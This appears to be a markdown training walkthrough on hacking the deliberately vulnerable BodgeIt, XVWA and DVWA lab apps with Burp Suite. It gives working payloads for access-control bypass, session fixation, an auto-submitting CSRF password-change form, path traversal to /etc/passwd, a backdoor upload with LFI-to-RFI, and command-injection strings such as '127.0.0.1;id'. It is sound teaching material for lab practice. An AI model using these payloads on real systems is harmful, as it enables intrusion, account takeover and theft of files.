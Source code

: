 # Web hacking for Lo Teks

You will only need :
1. [Burp Suite Community Edition_](https://portswigger.net/burp/communitydownload) - choose "*Download plain JAR file*"
2. Optional for your comfort - a plugin to switch proxy setting for your browser, like **FoxyProxy** for [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-standard/gcknhkkoolaabfmlnjonogaaifnjlfnp) or [Firefox](https://addons.mozilla.org/sk/firefox/addon/foxyproxy-standard/)

Now you need to read [this](http://www.phrack.org/issues/7/3.html) and start your `BurpSuite`

`java -jar burpsuite_community_v1.7.36.jar`

List of apps to play with:
* [The BodgeIt Store](http://bodgeit.lab/bodgeit/)
* [Xtreme Vulnerable Web Application (XVWA)](http://xvwa.lab/xvwa/)
* [Damn Vulnerable Web Application (DVWA)](http://dvwa.lab/)


## Broken Access Control

With a little bit of *Insecure Direct Object References (IDOR)*

### BodgeIt Admin interface

If there is no **admin** section in the menu, it doesn't mean there is none.

but you can [guess](http://bodgeit.lab/bodgeit/admin.jsp)

`http://bodgeit.lab/bodgeit/admin.jsp`


### BodgeIt Debug Messages

Wish there was some magic switch to show some sensitive stuff.

No problem. Try something like [this])http://bodgeit.lab/bodgeit/basket.jsp?debug=true)

`http://bodgeit.lab/bodgeit/basket.jsp?debug=true`


### Client-side data validation

`Proxy > Options > Response Modification > Remove JavaScript form validation`

### I can see what you buy

1. Visit [BodgeIt basket](http://bodgeit.lab/bodgeit/basket.jsp)
2. Change your cookie `Cookie: b_id=3;`
3. Refresh the page

### Insecure Direct Object References (IDOR)

WAT? Lets have look [here](http://xvwa.lab/xvwa/vulnerabilities/idor/).

We only have a `Café au lait`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=5`

But I want to order a `Caffé latte`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=7`


### What if i change this ...

You can test it [here](http://xvwa.lab/xvwa/vulnerabilities/missfunc/).

If you can *view*

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=view`

maybe you can do more

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=delete`


## Broken Authentication and Session Management


### SESSIONID

What are all these random letters numbers? Well, they really are (should be) random ;]
But remember
> Keep It Hidden Keep It Safe

### Session fixation 

Easy as sending a [link](http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF) to someone.

`http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF`




## Cross-Site Request Forgery (CSRF)

[This](http://xvwa.lab/xvwa/vulnerabilities/csrf/) is how a bad idea looks like.

`http://xvwa.lab/xvwa/vulnerabilities/csrf/?passwd=heslo&confirm=heslo&submit=submit`


BodgeIt : leave feedback to change passwords

`<img src='http://bodgeit.lab/bodgeit/password.jsp?password1=heslo&password2=heslo'>`

```
<form action="http://bodgeit.lab/bodgeit/password.jsp" method="POST">
  <input type="hidden" name="password1" value="heslo" />
  <input type="hidden" name="password2" value="heslo" />
  <input type="submit" value="Submit request" />
</form>
<script>document.forms[0].submit();</script>

```

## Insecure Direct Object References (IDOR) - again...

Yes, it can be bad, check [this](http://xvwa.lab/xvwa/vulnerabilities/fi/)

You show me `readme.txt`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=readme.txt`

but I want to see `/etc/passwd`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=/etc/passwd`


Same as [here](http://dvwa.lab/vulnerabilities/fi/?page=include.php)

Oh no, a file include

`http://dvwa.lab/vulnerabilities/fi/?page=file1.php`

with a bonus

`http://dvwa.lab/vulnerabilities/fi/?page=file4.php`

but we want more!

`http://dvwa.lab/vulnerabilities/fi/?page=../../phpinfo.php`


Or you can upload your own backdoor using the [image upload](http://dvwa.lab/vulnerabilities/upload) to

`../../hackable/uploads/phpinfo.txt`

and then access it as

`http://dvwa.lab/hackable/uploads/phpinfo.txt`


So let's turn LFI into RFI

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=http://DVWA/hackable/uploads/phpinfo.txt`

Use the `DVWA` hostname instead of `dvwa.lab` because of the docker setup.


## Injection

Let's do some real **hacking**, I want a **shell**!

## Command Injection

Ok, [Let's go!](`http://dvwa.lab/dvwa/vulnerabilities/exec/`)

`http://dvwa.lab/dvwa/vulnerabilities/exec/`

or

`http://xvwa.lab/xvwa/vulnerabilities/cmdi/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```